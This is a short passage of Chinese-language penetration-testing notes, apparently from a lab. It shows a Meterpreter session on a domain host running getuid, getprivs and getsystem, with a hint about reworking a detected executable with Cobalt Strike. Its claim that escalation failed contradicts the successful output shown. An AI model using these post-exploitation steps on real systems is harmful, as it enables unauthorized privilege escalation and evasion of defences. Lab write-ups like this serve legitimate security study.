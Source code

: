 ### 系统信息收集

下一步查看当前用户身份

```
terpreter > getuid
Server username: GOD\Administrator
```

下一步查看当前用户具备的权限，我备注一些关键权限

```
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege						允许直接遍历
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege				增加进程工作集 
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege							时区
SeUndockPrivilege							将计算机中dock中删除。 允许用户使用Eject PC从坞中将计算机移出，默认情况下Administrators, Power Users, Users均有此特 权。 
```

如果以后exe被杀调，可用cobalt strike二次改造

### Bypassuac

直接提权失败

```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```
